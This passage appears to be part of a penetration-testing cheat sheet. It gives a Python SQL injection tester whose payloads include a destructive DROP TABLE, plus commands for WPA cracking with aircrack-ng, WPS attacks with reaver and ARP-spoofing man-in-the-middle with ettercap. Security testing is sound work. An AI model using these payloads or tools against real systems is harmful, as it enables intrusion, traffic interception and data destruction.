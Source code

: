 ### SQL Injection Testing

```python
import requests
import time

def test_sql_injection(url, param):
    payloads = [
        "' OR '1'='1",
        "' UNION SELECT 1,2,3--",
        "'; DROP TABLE users--",
        "' OR SLEEP(5)--"
    ]
    
    for payload in payloads:
        data = {param: payload}
        start_time = time.time()
        response = requests.post(url, data=data)
        end_time = time.time()
        
        if end_time - start_time > 4:
            print(f"Time-based SQL injection detected with payload: {payload}")
```

## Network Security Testing

### Wireless Security

```bash
# WiFi scanning
iwlist wlan0 scan

# WEP/WPA cracking
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture.cap

# WPS attack
reaver -i wlan0 -b target_mac -vv
```

### Network Sniffing

```bash
# Wireshark analysis
wireshark -i eth0

# tcpdump
tcpdump -i eth0 -w capture.pcap

# ettercap (MITM)
ettercap -T -M arp:remote /192.168.1.1// /192.168.1.100//
```
